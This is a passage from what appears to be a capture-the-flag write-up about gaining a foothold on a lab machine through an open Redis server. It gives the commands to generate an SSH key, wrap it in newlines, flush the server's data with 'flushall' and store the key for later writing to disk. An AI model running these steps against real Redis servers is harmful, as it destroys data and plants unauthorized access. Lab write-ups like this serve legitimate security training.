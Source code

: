 Now *that* is interesting. An open Redis server. I think we just found our way in, but we can check the HTTP ports later if necessary.

## Initial Foothold
Okay, so, there is a well-known method you can use to exploit open Redis servers for RCE. You can read the method [here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). The main issue with this vulnerability, is that you are able to write files to the server.

Let's get stuck into this method. You will need `redis-cli` before you get started.

### SSH Key Generation
First step is to generate a new SSH key, as we can write it to the server using Redis.
```
$ ssh-keygen -t rsa -C "foo@bar"

Generating public/private rsa key pair.
Enter file in which to save the key (/home/username/.ssh/id_rsa): ./ssh_redis
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./ssh_redis.
Your public key has been saved in ./ssh_redis.pub.
The key fingerprint is:
SHA256:VgShVBnxU9zvX6Few1RGSxknXXiMmOUJsl9ZZApTUCQ foo@bar
The key's randomart image is:
+---[RSA 3072]----+
|      ..**o.EX*X@|
|     . ..o ++*=OO|
|      .   =   *=.|
|         . o . o.|
|        S   . +..|
|       .     . +o|
|            . . +|
|             .  .|
|                 |
+----[SHA256]-----+
```
<br />

Next, we'll have to surround our key with newlines. We need to do this as the key will be stored in the Redis server's memory - which in theory can compress strings, this should hopefully maintain the integrity of our SSH key.
```
$ (echo -e "\n\n"; cat ssh_redis.pub; echo -e "\n\n") > ssh_redis.txt
```
<br />

### Storing the SSH Key in Redis
Now we can get started with the actual exploit. We'll start by flushing all commands on the Redis server and storing the contents of our `ssh_redis.txt` inside a key-value pair.
```
$ redis-cli -h 10.10.10.160 flushall
OK
$ cat ssh_redis.txt | redis-cli -h 10.10.10.160 -x set exploit
OK
```
<br />
